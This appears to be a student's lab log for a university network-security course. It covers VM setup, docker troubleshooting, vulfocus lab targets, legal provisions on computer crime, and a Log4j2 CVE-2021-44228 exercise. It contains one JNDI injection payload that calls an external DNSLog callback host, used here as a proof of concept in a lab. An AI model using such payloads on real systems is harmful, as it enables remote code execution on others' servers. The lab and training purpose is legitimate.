







## 实验日志

Ani

---

#### 实验目的

完成 **基础团队实践训练** ：开源信息系统搭建、加固与漏洞攻防

团队分工跟练复现完成 [网络安全(2021) 综合实验](http://courses.cuc.edu.cn/course/109860/learning-activity/full-screen#/554139) 。无论团队由多少人所组成，以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色，老师将按照该角色的评价标准进行 基于客观事实的主观评价 

- 红队：需完成漏洞存在性验证和漏洞利用

- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告

- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）

上述能力的基本评分原则参考 “道术器” 原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](http://courses.cuc.edu.cn/course/109860/learning-activity/full-screen#/554139) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置

---

7.15 - 7.20 学习相关课程以及资料，并完成分工

#### 负责工作

- 作为红队完成对漏洞的存在性检验以及实现漏洞利用
- 作为蓝队完成漏洞利用的缓解
- 实现自动化脚本

#### 学习相关课程和资料

因为要考 IELTS 和上它的课程，所以拉长了前期的准备时间且我正式开始实验的时间比较晚

课程 `Wiki`：[2023 传媒网安教学 Wiki](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)

课程链接：[网络安全(2021) 综合实验](http://courses.cuc.edu.cn/course/109860/learning-activity/full-screen#/554139)

课程课件：[网络安全综合实验课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

相关法律意识：[《中华人民共和国网络安全法》](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm)、《刑法》、[《网络产品安全漏洞管理规定》](http://www.gov.cn/zhengce/zhengceku/2021-07/14/content_5624965.htm)

>《刑法》
第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪；提供侵入、非法控制计算机信息系统程序、工具罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

>违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。

>第二百八十六条 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。

>违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。

>故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

[从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228 漏洞](https://www.anquanke.com/post/id/263325)

---

#### 课程记录 & 实验记录

7.20 重置电脑，重装系统，删除了以往的文件和配置并对 C 盘和 D 盘进行重新分配

7.21 配置虚拟机环境

- 虚拟机双网卡可能需要自行分配 `IP` 地址

通过 ```ip a``` 查看是否分配好了双网卡的地址，若无，则需要手动配置：

修改网络配置文件

```bash
sudo vim /etc/network/interfaces
```

在文件中写入

```bash
allow-hotplug eth0
iface eth0 inet dhcp

allow-hotplug eth1
iface eth1 inet dhcp
```

保存退出后执行

```bash
sudo ifdown eth0 && sudo ifup eth0
sudo ifdown eth1 && sudo ifup eth1
```

但我这次使用的 `VMware` 已经自动分配好了

- 使用多重加载

但 `VMware` 没有该功能选项

- 善用快照进行备份或还原

- 虚拟机后台运行，减少宿主机工作

- 课程靶场推荐

    - [vulhub/vulfocus](https://github.com/vulhub/vulhub)
    - [fofapro/vulfocus](https://github.com/fofapro/vulfocus)
    - [sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)

- `vulfocus` 简易教程

    - [老师版简易教程](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

7.22 新建第二个虚拟机的时候，因为 `VMware` 没有多重加载功能，一开始脑抽用了同一个硬盘导入...于是，我删了新建的虚拟机而一开始的虚拟机还原快照终于能打开，然后不停的删除和重配环境，之前虽然弄了快照但是弄的时机不太好导致还是要重新配置很多环境，搞着搞着发现有缺失，最后重新下载镜像，重新配置环境

最终解决方式为将新下载的镜像复制一个镜像副本作为第二台虚拟机的硬盘



emm 后面做着做着虚拟机挂了，直接打不开了，下了 `virtualbox` 做，补充一个多重加载的截图



7.23-7.28

- 使用 `ssh-copy-id` 进行免密登录的配置

命令报错，改用 `scp` 直接把公钥传到虚拟机

- 单个漏洞靶标

1. 找到靶标的【访问入口】

看实验中启动的镜像提示

2. 收集【威胁暴露面】信息

3. 检测漏洞存在性

主要有两种方法：

- 确认受漏洞影响组件的【版本号】

- 源代码审计

实验中采用第二种方法

```bash
docker exec -it 容器名 bash
```

不一定是 `bash`，具体看路径，根据环境变量进行改写

```bash
cat /etc/shells
```
查看可加载的路径

```bash
docker cp 容器名：路径+文件 保存路径
```
找到 `jar` 文件，反编译找到有问题的代码

4. 验证漏洞可利用性

使用 `PoC` 手动测试` ${jndi:ldap://0qxc3d.dnslog.cn/exp` ，域名改为 [DNSLog.cn](http://www.dnslog.cn/) 中随机生成的

然后这里做着做着各种报错：







一开始看到一篇文章说可能是镜像问题，配置外网镜像就可以了，一开始修改了，但问题仍然无法解决。后面多次重启 `docker` 和换源的配置文件，可能过程中造成了什么冲突导致配置文件又无法修改了，改着改着虚拟机直接挂了打不开，也就是前面说到了转移阵地去 `virtualbox` 了，然后所有步骤又重复一遍...

然而并没有用，重复一遍问题依然存在

试了几个方法：

[vulfocus不能同步的解决方法/vulfocus同步失败](https://blog.csdn.net/m0_64563956/article/details/131229046#:~:text=GitHub%20-%20fofapro%2Fvulfocus%3A%20%F0%9F%9A%80Vulfocus%20%E6%98%AF%E4%B8%80%E4%B8%AA%E6%BC%8F%E6%B4%9E%E9%9B%86%E6%88%90%E5%B9%B3%E5%8F%B0%EF%BC%8C%E5%B0%86%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%20docker%20%E9%95%9C%E5%83%8F%EF%BC%8C%E6%94%BE%E5%85%A5%E5%8D%B3%E5%8F%AF%E4%BD%BF%E7%94%A8%EF%BC%8C%E5%BC%80%E7%AE%B1%E5%8D%B3%E7%94%A8%E3%80%82%20docker%E6%8A%8Avulfocus%E7%9A%84image%EF%BC%88docker,vulfocus%2Fvulfocus%20docker%20ps%20-a%20docker%20start%20%7Bcontainer-id%7D%20%E6%89%93%E5%BC%80%E7%BD%91%E7%AB%99%E5%87%BA%E7%8E%B0%E2%80%9C%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%86%85%E9%83%A8%E9%94%99%E8%AF%AF%E9%97%AE%E9%A2%98%E2%80%9D%EF%BC%8C%E8%80%8C%E4%B8%94%E9%95%9C%E5%83%8F%E5%90%8C%E6%AD%A5%E5%A4%B1%E8%B4%A5)
 
即修改镜像源，报错不能解决

[修改文件中的 url](https://github.com/fofapro/vulfocus/issues/299)

即将容器内部的 `/vulfocus-api/dockerapi/views.py `文件拷贝至主机当前目录并修改当前目录下拷贝出来的 `views.py` 文件，修改 `get_timing_imgs` 函数，将 `vulfocus.fofa.so` 替换成 `vulfocus.io`，最后将修改好的 `views` 文件重新复制回容器内部，报错仍不能解决

切换至 `root` 下执行相关命令，也不能解决

然后试着试着 `docker` 也出现问题，例如：



查看日志后说是 `docker` 启动的问题

于是尝试了各种方法，诸如

更改至 `root` 下执行相关命令，修改下列文件配置等等



但问题还是没得到解决

5. 评估漏洞利用效果


